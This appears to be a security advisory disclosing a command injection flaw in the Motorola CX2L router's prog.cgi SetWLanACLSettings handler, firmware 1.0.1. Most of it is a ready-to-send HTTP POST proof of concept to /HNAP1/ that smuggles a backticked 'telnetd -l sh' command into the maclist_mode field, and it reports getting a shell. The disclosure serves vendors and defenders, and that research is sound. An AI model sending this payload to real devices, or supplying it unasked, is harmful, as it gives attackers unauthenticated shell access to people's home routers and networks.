


# Motorola Vulnerability

Vendor:Motorola

Product:CX2L

Version:1.0.1

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in Motorola router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetWLanACLSettings` function, `wl(0).(0)_maclist_mode、wl(0).(0)_maclist` is directly passed by the attacker, so we can control the `wl(0).(0)_maclist_mode、wl(0).(0)_maclist` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `wl(0).(0)_maclist_mode` as **`telnetd -l sh`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.51.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetWLanACLSettings"
HNAP_AUTH: B6E6C58F8FFE4AD1D49B2C35FC3D09A1 1749732801850
Content-Length: 115
Origin: http://192.168.51.1
Connection: close
Referer: http://192.168.51.1/AdvWlanAccess.html
Cookie: work_mode=router; uid=xGS0QJg%2F; PrivateKey=2B0AD3C16F6ECE949E0E3B0BC34DD592; timeout=27

{"SetWLanACLSettings":{"wl(0).(0)_maclist_mode":"`telnetd -l sh`","wl(0).(0)_maclist":"pjqwudi,12:12:12:12:12:12"}}
```


## Result

Get a shell!

<div  align="center"></div>
